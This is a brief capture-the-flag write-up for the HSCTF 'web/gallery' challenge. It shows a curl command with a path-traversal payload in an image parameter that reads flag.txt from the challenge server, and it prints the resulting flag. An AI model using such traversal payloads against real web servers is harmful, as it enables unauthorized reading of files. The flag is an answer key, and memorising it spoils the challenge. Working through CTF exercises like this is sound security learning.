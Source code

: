 ```yaml
---
created: 2024-06-11T01:36
updated: 2024-06-11T01:38
---
```


## HSCTF - web/gallery

```curl
curl "http://35.192.129.251:8003/image?image=wallpaper-1322673.jpg//./../../flag.txt"
```

Just use image `wallpaper-1322673.jpg//./../../flag.txt`

`flag{1616109079_is_a_cool_number}`
